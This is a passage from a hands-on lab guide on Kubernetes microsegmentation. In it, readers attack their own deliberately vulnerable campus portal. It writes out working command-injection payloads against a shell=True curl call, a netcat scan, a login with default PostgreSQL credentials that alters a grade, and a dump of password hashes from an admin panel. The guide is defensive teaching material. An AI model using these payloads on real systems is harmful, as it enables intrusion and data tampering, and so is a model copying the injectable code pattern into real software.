

Chapter 8. Attack the flat network
You play Omar now. From Windows PowerShell you send five requests to the portal's public door, and each one abuses the bug in the news service to reach one step deeper into the lab, until Omar's Network Security grade reads 95 instead of 58. Then you run the same five steps from your dashboard's attack button, watch the attack in the Hubble UI and put the database back the way it was. At the end you have the "before" half of your results: 5 of 5 attack steps succeeded and 36 of 36 paths open, saved in a file for your report. Plan on about an hour and a half.
Everything in this chapter happens on your own laptop, against a lab you built for this purpose. Never point these commands at a system you don't own. Doing that is a crime in most countries.
Is the lab running, and still flat?
Chapter 7 ended with the cluster up, the portal answering and the dashboard open. If you restarted Windows since then, the kind nodes come back by themselves after a minute or two, but the dashboard doesn't. Check the state of the lab before you start, because an attack against a half-running lab gives results you can't use.
Open the Ubuntu terminal and run these two commands.
kubectl -n campus get pods
kubectl -n campus get ciliumnetworkpoliciesThe first line lists the pods in namespace campus, and the second lists the Cilium policies there. There shouldn't be any policies yet, because you write them in chapter 10.
You should see seven pods and no policies.
Every pod must show 1/1 under READY and Running under STATUS. Your pod names end in different random letters, and the AGE column will differ too. The last line must read No resources found in campus namespace., which means the network is still flat.
If you see this instead
The connection to the server 127.0.0.1:37645 was refused - did you specify the right host or port?The three node containers aren't running yet, which is normal in the first minutes after Windows restarts. Your port number will differ. Wait two minutes. Then run both commands again. If the error stays, start the nodes yourself with docker start kind-control-plane kind-worker kind-worker2, wait one minute, and run the check again, as in chapter 6 step 1.
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?If docker start answers with this, Docker itself isn't running in Ubuntu. Start it with sudo systemctl start docker, type your Ubuntu password when asked, and run the docker start line again.
Some pods show 0/1 under READY, or ContainerCreating or Unknown under STATUS. The nodes came back a moment ago, and the pods are still starting. Give them two minutes. Then run the pods command again. If a pod still isn't 1/1 Running after that, use the pod failures in chapter 6.
The pods command prints No resources found in campus namespace. as well, instead of a list of pods. The portal isn't deployed. Run bash ~/microseg/deploy.sh and go back to the chapter 6 checkpoint before you continue.
If the policies command lists names such as default-deny or frontend, you ran ahead into chapter 10 at some point. Remove them with kubectl delete -f ~/microseg/k8s/policies/ and run the check again. The attack only proves something if the network is flat when you start.
Start the dashboard on port 5050
The dashboard runs the attack for you later in this chapter and counts the open paths. Open a second Ubuntu window the same way you opened the first one and run the start command from chapter 7 in it.
cd ~/microseg/dashboard && ../.venv/bin/python app.pycd ~/microseg/dashboard moves into the dashboard folder, so that the relative path ../.venv points at the project's virtual environment. ../.venv/bin/python is the Python inside that environment, the one that has Flask installed. The && runs the second part only if the first part worked.
You should see Flask start and wait.
The line that matters is Running on http://127.0.0.1:5050. The prompt doesn't come back, and that's expected while Flask is running. Leave this window open for the whole chapter and type your other commands in the first window.
If you see this instead
Address already in use
Port 5050 is in use by another program. Either identify and stop that program, or start the server with a different port.A dashboard from an earlier session is still running in some other window. Find that window and press Ctrl+C in it, or close it, then start the dashboard again.
Test port 30080 from Windows
The attacker sits outside the lab, so every attack command in this chapter runs in Windows PowerShell and comes in through the portal's NodePort, 30080. Check that the port answers before you start. Open Windows PowerShell from the Start menu and run this.
curl.exe -s -o NUL -w "%{http_code}\n" http://localhost:30080/You always type curl.exe in PowerShell, with the .exe. Windows PowerShell 5.1 has a built-in alias called curl that runs a different command, Invoke-WebRequest, which understands none of curl's options. -s keeps curl silent about progress. -o NUL throws the page away, since NUL is Windows' name for "nowhere". -w "%{http_code}\n" prints the HTTP status code of the answer followed by a line break.
You should see one number.
200It must be 200, the HTTP code for "OK".
If you see this instead
000If PowerShell prints this, curl got no answer at all. Go back to the first step of this chapter and run the pods check in Ubuntu again, since a cluster that is still starting after a reboot gives exactly this. When every pod is 1/1 Running, run bash ~/microseg/check-portal.sh in Ubuntu. If that ends PORTAL: 6/6 OK but Windows still prints 000, WSL isn't forwarding the port to Windows. Run wsl --shutdown in PowerShell, open Ubuntu again, wait two minutes and repeat the pods check. This also stops the dashboard. Start it again in the second window.
A red error that starts with Invoke-WebRequest : means you typed curl without .exe. Type the command again with curl.exe.
Predict first, then attack
Before you attack, write two predictions on paper: how many of the 36 paths in the dashboard's matrix you expect to be open, and what Omar's grade will be when you finish step 4.


Figure 5 shows the attack chain on the flat network and on the segmented one. Only the first arrow comes in through the public door, and every arrow after it starts inside the news pod.
Look at Omar's grade first
Record Omar's grade before the attack, so you have something to compare the result against.
Open http://localhost:30080 in your Windows browser. Under "Student login", type omar in the username box and omar2026 in the password box, then click "Log in". The box under the button fills with Omar's profile and his grades, written as JSON, a text format of names and values in curly brackets. Find the entry whose course is Network Security. Its grade is 58.
Now read the same row straight from the database, in Ubuntu.
kubectl -n campus exec deploy/db -- psql -U postgres -d campus -c "SELECT * FROM grades WHERE id = 3"kubectl -n campus exec deploy/db runs a command inside the db pod. Everything after -- is that command. psql is PostgreSQL's command-line client, a program that sends SQL to the database and prints the answer as a table. -U postgres logs in as the user postgres and -d campus picks the campus database. -c "..." gives psql one SQL statement to run. SELECT * FROM grades WHERE id = 3 asks for every column of the row whose id is 3. This is you looking as the administrator, from inside the pod. It doesn't cross the network, so it works with or without policies, and you'll use it again after the attack.
You should see a small table with one row.
id | student_id | course | grade
----+------------+------------------+-------
3 | 2 | Network Security | 58
(1 row)The row must show student_id 2, the course Network Security and the grade 58. Row 3 of the grades table is Omar's Network Security grade, and Omar's own student id is 2.
If you see this instead
error: unable to upgrade connection: container not found ("db")The db pod is being replaced, for example because you ran deploy.sh a moment ago. Wait 20 seconds and run the command again.
The grade already says 95. You ran the attack before, or followed a draft of this chapter. Skip ahead to "Reset Omar's grade" near the end of this chapter, run that step, then come back here.
The attack command's shape
All five attack commands share one shape. Here is the line in apps/news.py that the shape abuses, copied from the file you typed in chapter 5.
command = "curl -s -o /dev/null -w '%{http_code}\\n' --max-time 3 " + url
result = subprocess.run(command, shell=True, stdout=subprocess.PIPE,
stderr=subprocess.STDOUT, text=True, timeout=20)That's the bug. The news service takes the text from the form field called url, a named box on a web form, and glues it onto the end of a curl command. Then shell=True hands that whole line to a shell, the Linux program that reads and runs command lines. To a shell, a semicolon means "this command has ended, start the next one". So if the url field holds x; id, the shell first runs curl against a server called x, which doesn't exist, and then runs id. Whatever any of the commands print comes back to the attacker in the answer, because stderr=subprocess.STDOUT merges error messages into the normal output.
Every attack command in PowerShell looks like this, with only the text after url= changing.
curl.exe -s http://localhost:30080/news/check-image --data-urlencode "url=<payload>"A payload is the text an attacker sends to make a bug do something its authors never meant it to. http://localhost:30080/news/check-image is the image checker's address, reached through frontend, which passes every /news request to the news service. --data-urlencode "url=..." sends a form field named url, the same thing the portal's "Image link checker" box sends when you click "Check". Sending data makes curl use the POST method, which is the method the checker expects. URL encoding rewrites spaces, semicolons and other special characters into a safe form for the trip, and the news service decodes them back before it builds its command line.
Every answer starts with HTTP status of image: 000. That's the dummy curl reporting that server x gave no answer, which is the correct result for a server that doesn't exist. The interesting part is everything printed after it.
The payloads contain no double quotes and no $ signs, because PowerShell 5.1 would change or remove them before curl ever saw the text. Copy each command from the Docs page and paste it into PowerShell with a right-click or Ctrl+V. Each command is one line, even where the page wraps it onto several. Press Enter once, at the end, and don't add or drop spaces inside the quotes.
Step 1. T1190, run a command inside news
The first step proves the bug works and tells the attacker where they've landed. In MITRE ATT&CK this is technique T1190, Exploit Public-Facing Application: breaking into the system through a program the public is meant to use.
curl.exe -s http://localhost:30080/news/check-image --data-urlencode "url=x; id; hostname"id prints which Linux user the commands run as. hostname prints the machine's name, and inside Kubernetes a pod's host name is the pod's name.
You should see three lines.
HTTP status of image: 000
uid=1000(app) gid=1000(app) groups=1000(app)
news-545758c8c6-2jp4nThe line starting uid=1000(app) carries this step's proof text, uid=. A proof text is a short string that only appears in the answer if the step worked, and the dashboard looks for the same string later in this chapter. The attacker's commands are running inside a container as the user app, and the last line is the name of the news pod, starting with news-. Your pod name ends in different letters. From here on, the attacker has a foothold in the news pod.
If you see this instead
Nothing at all, and the prompt comes straight back. The -s option hides curl's own error messages, so a portal that doesn't answer looks like silence. Run the check from "Test port 30080 from Windows" again. If it prints 000, fix the portal first, using the failure notes in that step.
HTTP status of image: 000If that's the only line, the shell never saw a semicolon. Look at your command: the text inside the quotes must be exactly url=x; id; hostname, with a semicolon after x and after id.
Step 2. T1046, find the other services
Now the attacker looks around. This is T1046, Network Service Discovery: finding out which other services exist and which of them answer.
curl.exe -s http://localhost:30080/news/check-image --data-urlencode "url=x; env | grep SERVICE_PORT= | sort; nc -zv -w 2 frontend 80; nc -zv -w 2 api 8080; nc -zv -w 2 auth 5001; nc -zv -w 2 db 5432; nc -zv -w 2 admin 5002"env prints the pod's environment variables. Kubernetes puts a variable named <SERVICE>_SERVICE_PORT into every pod for every Service in the same namespace that existed when the pod started, plus the cluster's own kubernetes Service, which is why k8s/app.yaml creates the Services before the Deployments. | grep SERVICE_PORT= keeps only those lines and | sort puts them in alphabetical order. The attacker now has a list of names and ports without sending a single packet.
nc is netcat, a small tool that opens network connections by hand. -z makes it only test whether the port accepts a connection, without sending any data. -v makes it report the result in words. -w 2 gives up after 2 seconds. Each nc line knocks on one service. Knocking on many ports in a row like this is called a port scan. The news image carries netcat and psql because an attacker would download such tools right after breaking in, which ATT&CK files as T1105. Baking them into the image means every run of the lab gives the same result, with or without internet.
You should see seven port variables, then five connection lines.
HTTP status of image: 000
ADMIN_SERVICE_PORT=5002
API_SERVICE_PORT=8080
AUTH_SERVICE_PORT=5001
DB_SERVICE_PORT=5432
FRONTEND_SERVICE_PORT=80
KUBERNETES_SERVICE_PORT=443
NEWS_SERVICE_PORT=5000
Connection to frontend (10.96.181.104) 80 port [tcp/http] succeeded!
Connection to api (10.96.122.235) 8080 port [tcp/http-alt] succeeded!
Connection to auth (10.96.108.176) 5001 port [tcp/*] succeeded!
Connection to db (10.96.126.23) 5432 port [tcp/postgresql] succeeded!
Connection to admin (10.96.110.73) 5002 port [tcp/*] succeeded!Six of the port variables belong to your Services. The seventh, KUBERNETES_SERVICE_PORT, belongs to the Kubernetes API server, which every pod gets. Ops has no Service, because nothing connects to it, and the scan skips news, since that's where the attacker already is. Each of the last five lines must end in succeeded!, which is the proof text. The IP addresses in brackets are the Services' addresses and will differ on your laptop. All five services answered, because nothing on a flat network checks who is connecting.
If you see this instead
/bin/sh: 1: nc: not foundThe news pod runs the plain campus-app:1.0 image instead of campus-news:1.0, so netcat isn't there. Check the image line of the news Deployment in k8s/app.yaml and the docker build line for Dockerfile.news in deploy.sh against chapter 6, then run bash ~/microseg/deploy.sh again.
Some lines say timed out: Operation now in progress instead of succeeded!. Something is blocking traffic, which on a flat network means policies are left over. Run kubectl -n campus get ciliumnetworkpolicies in Ubuntu. It must print No resources found in campus namespace.
Step 3. T1078.001, log in to the database with the default account
The scan showed db answering on port 5432, PostgreSQL's port. Many installations keep the vendor's default user and password, and this one does on purpose: user postgres, password postgres. Logging in with an account the vendor ships is T1078.001, Valid Accounts: Default Accounts.
curl.exe -s http://localhost:30080/news/check-image --data-urlencode "url=x; PGCONNECT_TIMEOUT=3 PGPASSWORD=postgres psql -h db -U postgres -d campus -c 'SELECT id, username, full_name FROM students'"PGCONNECT_TIMEOUT=3 and PGPASSWORD=postgres are environment variables set for this one psql run. The first tells psql to give up after 3 seconds if nobody answers. The second hands it the password, so it doesn't stop and ask. psql -h db connects over the network to the host named db, which is the db Service. Your earlier kubectl exec command never left the db pod, while this one crosses the network from news to db. -U postgres -d campus picks the user and the database as before. The SQL inside single quotes asks for the id, user name and full name of every student.
You should see the four seeded students.
HTTP status of image: 000
id | username | full_name
----+----------+-------------
1 | sara | Sara Ahmed
2 | omar | Omar Khalid
3 | lina | Lina Hassan
4 | yousef | Yousef Ali
(4 rows)The proof text is (4 rows). The attacker can now read the student table. With the same login they could read any other table too, or drop one.
If you see this instead
/bin/sh: 1: psql: not foundAs with netcat in step 2, the news pod isn't running campus-news:1.0. Fix it the same way.
psql: error: connection to server at "db" (10.96.126.23), port 5432 failed: FATAL: password authentication failed for user "postgres"The address in brackets will differ. The password in the db-credentials Secret isn't postgres. Compare the Secret at the top of k8s/app.yaml with chapter 6. The lab uses the vendor default on purpose, and the attack depends on it.
Step 4. T1565.001, change Omar's grade
This is the step Omar wanted. Changing stored records to alter what an organization believes is T1565.001, Stored Data Manipulation, under the Impact tactic.
curl.exe -s http://localhost:30080/news/check-image --data-urlencode "url=x; PGCONNECT_TIMEOUT=3 PGPASSWORD=postgres psql -h db -U postgres -d campus -c 'UPDATE grades SET grade = 95 WHERE id = 3' -c 'SELECT * FROM grades WHERE id = 3'"The connection part is the same as in step 3. psql runs the two -c statements in order. UPDATE grades SET grade = 95 WHERE id = 3 overwrites the grade in row 3, and the SELECT reads that row back so the attacker can see the change.
You should see UPDATE 1 and the changed row.
HTTP status of image: 000
UPDATE 1
id | student_id | course | grade
----+------------+------------------+-------
3 | 2 | Network Security | 95
(1 row)UPDATE 1 is the proof text. It means PostgreSQL changed exactly one row. The table under it shows student_id 2, Network Security and 95. PostgreSQL raised no error or warning, and nothing was written anywhere a teacher would look.
If you see this instead
UPDATE 0No row has id 3, which happens if db/init.sql was changed so the grades are inserted in a different order. Compare the INSERT INTO grades lines with chapter 5, run bash ~/microseg/deploy.sh to rebuild the database, and start this chapter's attack again from step 1.
Step 5. TA0008, open the admin panel
The scan also showed admin answering on port 5002. The admin panel has no login, because its authors assumed only people inside the network could reach it. On a flat network the attacker in the news pod counts as inside, so the panel is open to them too.
curl.exe -s http://localhost:30080/news/check-image --data-urlencode "url=x; curl -sS --max-time 3 http://admin:5002/users"This time the payload runs curl from inside the news pod. -sS keeps it quiet about progress but still prints an error if the connection fails. --max-time 3 stops it after 3 seconds. http://admin:5002/users is the admin panel's list of users.
You should see one long line of JSON.
HTTP status of image: 000
[{"email":"sara@campus.local","full_name":"Sara Ahmed","id":1,"password_hash":"b28ab424d96c2971912a1fb55338074c92b547aedb9d9877ff2c7e0ae78ee558","username":"sara"},{"email":"omar@campus.local","full_name":"Omar Khalid","id":2,"password_hash":"7b7375b4105cb1cce0cec22d4254d96ac195775616fa148417f145e36f9d0988","username":"omar"},{"email":"lina@campus.local","full_name":"Lina Hassan","id":3,"password_hash":"e04196a104ede766df19a17110fcabe6184be9e97b2887723fe990844ff09b25","username":"lina"},{"email":"yousef@campus.local","full_name":"Yousef Ali","id":4,"password_hash":"9c3ed172440f1853e1558e0623b1a5144a48bfb1b4289220c417d74227e863c5","username":"yousef"}]The proof text is password_hash. Every student's user name, email address and password hash is now in the attacker's hands. A password hash is the scrambled form a system stores instead of the password itself, and weak passwords can often be recovered from it. ATT&CK has no technique that fits this step exactly, so the guide labels it with its tactic, TA0008 Lateral Movement, moving from one internal system to another.
If you see this instead
curl: (6) Could not resolve host: adminThe name admin didn't turn into an address, which means the admin Service is missing. Run kubectl -n campus get services in Ubuntu. It must list six Services, admin among them. If admin is missing, compare k8s/app.yaml with chapter 6 and run bash ~/microseg/deploy.sh again.
One more open door: the forgotten export endpoint
The attack so far needed the bug in news. This request doesn't. apps/api.py still has an old debug route, /api/export, that returns every grade of every student without asking who you are. Frontend passes every request that starts with /api/ to the api service, so anyone on the internet can reach it.
curl.exe -s -i http://localhost:30080/api/export-i makes curl print the HTTP headers of the answer above the body, so you see the status line. Nobody logs in, and nothing in the request looks like an attack.
You should see HTTP/1.1 200 OK, some headers, and then every grade in the database.
HTTP/1.1 200 OK
Server: nginx/1.28.3
Date: Thu, 19 Nov 2026 20:40:20 GMT
Content-Type: application/json
Content-Length: 526
Connection: keep-alive
[{"course":"Cloud Computing","full_name":"Sara Ahmed","grade":88},{"course":"Network Security","full_name":"Sara Ahmed","grade":91},{"course":"Network Security","full_name":"Omar Khalid","grade":95},{"course":"Databases","full_name":"Omar Khalid","grade":64},{"course":"Operating Systems","full_name":"Lina Hassan","grade":82},{"course":"Network Security","full_name":"Lina Hassan","grade":77},{"course":"Network Security","full_name":"Yousef Ali","grade":69},{"course":"Cloud Computing","full_name":"Yousef Ali","grade":73}]The first line must be HTTP/1.1 200 OK. In the JSON, Omar Khalid's Network Security entry already shows the 95 from step 4. The date header is different on your run. Chapter 10 closes this door with an L7 rule, and this output is your "before" picture for it.
If you see this instead
HTTP/1.1 404 NOT FOUNDYour apps/api.py doesn't have the /api/export route. Compare it with chapter 5, then run bash ~/microseg/deploy.sh to rebuild the image. That also resets the database, so start this chapter's attack again from step 1.
Run all 5 steps from the dashboard

Your dashboard sends the same five payloads with one click, through the same NodePort. It also decides for you whether each step worked, so you get a count you can put in your results table.
Open http://localhost:5050 in your Windows browser and find the section "Attack from the news pod". Click "Run attack". The summary line says "Running 5 steps (up to 30 seconds)..." while it works. On the flat network it finishes in a few seconds.
The dashboard counts a step as succeeded when its proof text shows up in the reply, namely uid= for step 1, succeeded for step 2, (4 rows) for step 3, UPDATE 1 for step 4 and password_hash for step 5. They're the same strings you looked for by hand. Step 4 runs again, too, but writing 95 over a 95 changes nothing.
The summary line must read "5 of 5 attack steps succeeded", and the log under it shows each step's output. Now save the same result as text for your report. In Ubuntu, run this.
mkdir -p ~/microseg/evidence
curl -s -X POST localhost:5050/api/attack | jq -r '.[] | (if .success then "SUCCESS " else "FAILED " end) + .step' | tee ~/microseg/evidence/ch10-attack-flat.txtmkdir -p ~/microseg/evidence creates the folder for your report material, and -p keeps it quiet if the folder already exists. curl -s -X POST localhost:5050/api/attack calls the same route the button calls. -X POST picks the POST method, which this route requires. The dashboard answers with a JSON list holding one entry per step. jq -r turns that into plain lines: for each entry (.[]) it writes SUCCESS or FAILED depending on the entry's success value, followed by the step's name. tee prints the lines on your screen and also writes them into the file.
You should see five lines.
SUCCESS 1. T1190 exploit the image checker
SUCCESS 2. T1046 discover and scan services
SUCCESS 3. T1078.001 log in to db with the default account
SUCCESS 4. T1565.001 change Omar's grade
SUCCESS 5. reach the admin panel and dump usersAll five must start with SUCCESS.
While the dashboard is open, scroll to "Reachability matrix" and click its "Refresh" button. After a few seconds the summary says "36 of 36 paths reachable" and every cell is blue. Every one of the seven programs can open a connection to every service other than itself.
Now look at what the attack did to Omar's record. Go back to the portal tab in your browser and click "Log in" again with Omar's user name and password still in the boxes. The Network Security entry now shows a grade of 95. This is what a teacher would see, and nothing on the page hints that anyone touched it.
Confirm it from the database in Ubuntu.
kubectl -n campus exec deploy/db -- psql -U postgres -d campus -c "SELECT * FROM grades WHERE id = 3"It's the command you ran before the attack, and it prints the same row with the new grade.
id | student_id | course | grade
----+------------+------------------+-------
3 | 2 | Network Security | 95
(1 row)The grade column must read 95. Write 58 and 95 next to your prediction from the start of the chapter.
If you see this instead
The command prints nothing at all and the prompt comes back. The dashboard isn't running, and curl -s hides the connection error. Start the dashboard in the second Ubuntu window as shown at the start of this chapter, then run the command again. It also wrote an empty evidence/ch10-attack-flat.txt, which the second run overwrites.
Every line says FAILED, and the log in the browser shows request failed. The dashboard can't reach the portal on 127.0.0.1:30080. Run bash ~/microseg/check-portal.sh in Ubuntu to confirm and fix the portal first.
The grade still reads 58. Step 4 didn't run against this database, for example because the db pod was restarted after it. Run step 4 again from PowerShell and check its output for UPDATE 1.
Watch the attack on Hubble's service map
Hubble has recorded every connection the attack made. Its web page draws them as a service map, a picture with one box per service and one line for each pair that talked. Take a look now, while the network is flat, so you can compare it with chapter 11's picture after segmentation.
Open a third Ubuntu window and run this.
cilium hubble ui --open-browser=falsecilium hubble ui connects port 12000 on your laptop to the Hubble UI inside the cluster. --open-browser=false stops it from trying to open a browser inside Ubuntu, which has none, so you open the page from Windows yourself.
The command starts and keeps running.
It holds the terminal. Leave the window open, and press Ctrl+C in it when you're done with the UI.
Open http://localhost:12000/?namespace=campus in your Windows browser. The ?namespace=campus part picks your namespace, so you don't have to choose it from the list at the top left. Then go back to the dashboard tab and click "Run attack" once more, so fresh flows arrive while the UI is watching. Return to the Hubble UI tab. Type pod=news in the filter box at the top, so the map shows only connections that start or end at news. Lines now run from news to db, admin, api, auth and frontend. The map redraws as flows arrive, so give it a few seconds. Below the map, the flows table lists each connection, and the Verdict column says "forwarded" for every one of them, which is what a flat network looks like in Hubble.
Take a screenshot of this page for your report. Press Windows+Shift+S and drag a rectangle around the browser window. A notification appears in the corner of the screen. Click it to open the picture in the Snipping Tool, the screenshot program built into Windows, and press Ctrl+S. In the "Save As" window, click the address bar at the top, type %USERPROFILE% and press Enter. If there is no folder named microseg-evidence yet, click "New folder" and give it that name. Open the folder, type E18-hubble-map-flat as the file name and click "Save". Chapter 11 compares its own picture with this one, and chapter 14 uses the same folder and says where the picture goes in the thesis.
If you see this instead
The browser says the page can't be reached. The cilium hubble ui command isn't running, or it stopped with an error. Look at the third Ubuntu window. If it shows an error mentioning port 12000, an older copy of the command is still running somewhere, from chapter 4 or from an earlier try. Don't close the dashboard window to find it. In the first Ubuntu window, run pkill -f "cilium hubble ui", which stops every running copy of that command and prints nothing. Then run cilium hubble ui --open-browser=false again in the third window.
The page opens but the map stays empty. Hubble Relay isn't ready. Run cilium status in the first Ubuntu window. The line for Hubble Relay must say OK. If it doesn't, go back to the end of chapter 4.
Reset Omar's grade
Omar's grade has to be 58 again before chapter 10, so that the segmented attack can show the grade staying put. Replace the db pod.
kubectl -n campus rollout restart deployment/db
kubectl -n campus rollout status deployment/db --timeout=120s
sleep 3
kubectl -n campus exec deploy/db -- psql -U postgres -d campus -c "SELECT * FROM grades WHERE id = 3"A rollout is Kubernetes replacing a Deployment's pods with new ones. rollout restart deployment/db starts one for db. rollout status ... --timeout=120s waits until the new pod is ready, for at most two minutes. sleep 3 waits three more seconds so PostgreSQL has settled, and the last line reads row 3 again.
This works because the db pod has no persistent volume, which is storage that Kubernetes keeps when a pod is replaced. Without one, the new pod starts with an empty database, and PostgreSQL runs init.sql from the db-init ConfigMap again, the same way it did on the first deploy. The sessions table starts empty too, so anyone logged in to the portal has to log in again.
You should see the restart, the wait and the original grade.
deployment.apps/db restarted
Waiting for deployment "db" rollout to finish: 1 old replicas are pending termination...
Waiting for deployment "db" rollout to finish: 1 old replicas are pending termination...
deployment "db" successfully rolled out
id | student_id | course | grade
----+------------+------------------+-------
3 | 2 | Network Security | 58
(1 row)The last table must show 58. The "Waiting for deployment" lines may appear once, several times or not at all.
If you see this instead
psql: error: connection to server on socket "/var/run/postgresql/.s.PGSQL.5432" failed: No such file or directory
Is the server running locally and accepting connections on that socket?PostgreSQL was still starting when psql asked. Wait ten seconds and run the last line again by itself.
error: unable to upgrade connection: container not found ("db")kubectl exec picked the old pod while it was shutting down. Wait ten seconds and run the last line again.
Checkpoint
The checkpoint reads three things back: how many steps your saved attack file marks as succeeded, how many paths are open, and Omar's grade after the reset. Your dashboard must still be running in the second Ubuntu window. In the first window, run this. It's one line.
cd ~/microseg && grep -c '^SUCCESS' evidence/ch10-attack-flat.txt && curl -s localhost:5050/api/matrix | jq -r '"matrix: \(.open) of \(.total) reachable"' && kubectl -n campus exec deploy/db -- psql -U postgres -d campus -tAc "SELECT grade FROM grades WHERE id = 3"grep -c '^SUCCESS' counts the lines of your saved attack file that start with SUCCESS, where ^ means the start of a line. /api/matrix is the route behind the dashboard's "Refresh" button, and the jq -r filter builds one sentence from the open and total numbers in the answer. The last part reads Omar's grade as before, and -tAc is three psql options run together: -t leaves out the column names and the row count, -A leaves out the table lines, and -c runs the statement, so only the number itself prints. Each && runs the next part only if the one before it worked. grep -c counts as failed when it finds nothing, so a file with no SUCCESS lines stops the chain after printing 0.
Checkpoint. The output must be exactly the three lines below.
The lines must read 5, matrix: 36 of 36 reachable and 58. If the first line is lower than 5, run the dashboard attack step again, which rewrites the file, and then the database reset. If the last line is 95, run the reset step again.
Save your work.
cd ~/microseg && git add -A && git commit -m "ch08: attack on the flat network"git add -A stages every new or changed file, here evidence/ch10-attack-flat.txt, and git commit -m saves the snapshot with that message.